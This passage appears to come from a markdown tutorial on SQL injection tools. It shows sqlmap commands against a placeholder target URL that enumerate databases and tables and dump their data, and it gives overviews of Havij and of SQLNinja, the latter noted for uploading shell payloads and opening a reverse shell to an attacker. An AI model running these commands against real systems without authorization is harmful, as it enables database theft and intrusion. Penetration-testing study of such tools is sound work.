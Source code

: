 **Basic Usage:**
```bash
sqlmap -u "http://target.com/page.php?id=1" --batch
```

**Extract Database Names:**
```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

**Extract Table Names:**
```bash
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables
```

**Extract Data:**
```bash
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump
```

---

### 2️⃣ **Havij**

**Overview:**  
- A famous, easy-to-use automated SQL Injection tool with a graphical user interface (GUI).
- Was widely used, though now mostly outdated and Windows-only.

**Features:**  
✅ Easy-to-use point-and-click interface  
✅ Can extract DB data, users, and passwords  
✅ Detects DBMS (MySQL, MSSQL, Oracle, etc.)  
✅ Password hash decoding

**Limitations:**  
- Mostly outdated, detectable by modern WAFs  
- Not included in Kali by default

---

### 3️⃣ **SQLNinja**

**Overview:**  
- An open-source tool specifically designed to exploit SQL Injection on Microsoft SQL Server.

**Features:**  
✅ Database fingerprinting  
✅ Extract database schema  
✅ Upload and execute shell payloads  
✅ Reverse TCP shell to attacker's machine

**Installation:**
```bash
sudo apt-get install sqlninja
```

**Usage Example:**
```bash
sqlninja -u "http://target.com/page.asp?id=1"
```
